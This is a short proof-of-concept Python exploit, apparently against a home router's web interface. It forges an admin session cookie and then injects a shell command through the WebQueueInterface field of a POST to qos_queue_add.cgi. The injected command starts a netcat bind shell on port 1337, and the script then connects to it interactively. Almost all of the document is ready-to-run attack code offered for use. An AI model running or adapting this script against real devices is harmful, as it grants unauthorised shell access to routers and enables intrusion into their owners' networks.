 # Final Proof-of-Concept script

(Note: Due to wrapping, you might need to scroll to the right to see the full request)

```python
#!/usr/bin/python3

from pwn import *
import urllib.parse
import requests
import sys

try:
    HOST = sys.argv[1]
except IndexError: 
    exit("Sorry I need your IP as argument to run, e.g. ./poc.py 192.168.1.44")

MALICIOUS = HOST + " admin 0"
COMMAND = urllib.parse.quote("nc -l -p 1337 -e 'sh'")

print(f"[*] Attempting to create session file with evil session {MALICIOUS}")
r=requests.get("http://192.168.1.1/qos_queue_add.cgi", cookies={"session":MALICIOUS})

req = f"""POST /qos_queue_add.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 159
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html, /
X-Requested-With: XMLHttpRequest
If-Modified-Since: 0
Expires: 0
Origin: http://192.168.1.1/
Referer: http://192.168.1.1/indexMain.cgi
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session={MALICIOUS}
Connection: close

Submit=Apply&WebQueueActiveCfg=Active&QueueObjectIndex=1&QueueNameTxt=WAN_Default_Queue&WebQueueInterface=WAN;{COMMAND};&WebQueuePriority=3&WebQueueWeight=1&WebQueueRate=""".encode()

print(f"[*] Now sending the payload to run following command (url-encoded): {COMMAND}")
io = remote("192.168.1.1", 80)
io.send(req)
io.close()

sleep(1)

io = remote("192.168.1.1", 1337)
print("[*] Got shell!")
io.interactive()
``` 
